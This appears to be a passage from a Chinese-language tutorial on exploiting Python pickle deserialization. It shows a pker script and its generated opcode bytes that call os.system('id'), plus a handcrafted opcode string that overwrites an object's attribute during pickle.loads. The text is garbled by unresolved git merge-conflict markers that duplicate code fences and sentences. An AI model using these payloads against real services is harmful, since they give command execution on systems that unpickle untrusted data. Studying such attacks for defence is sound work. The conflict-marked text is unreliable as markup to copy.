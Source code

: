 <<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
#pker_test.py

i = 0
s = 'id'
lst = [i]
tpl = (0,)
dct = {tpl: 0}
system = GLOBAL('os', 'system')
system(s)
return
```

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
#命令行下

$ python3 pker.py < pker_tests.py

b"I0\np0\n0S'id'\np1\n0(g0\nlp2\n0(I0\ntp3\n0(g3\nI0\ndp4\n0cos\nsystem\np5\n0g5\n(g1\ntR."
```

### 利用

#### 变量覆盖

<<<<<<< HEAD
假设存在类 `Secret`, 类有一个 `name` 属性，那我们可以通过 pickle 反序列化修改这个属性的值.

```plain
=======
假设存在类 `Secret`, 类有一个 `name` 属性，那我们可以通过 pickle 反序列化修改这个属性的值。

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
import pickle
import pickletools
class Secret:
    def __init__(self, name):
        self.name = name

s=Secret("S1nKk")
opcode=b"""c__main__
s
(S'name'
S'Funny_M0nk3y'
db."""
pickle.loads(opcode)
print(s.name)
# pickletools.dis(opcode)
```
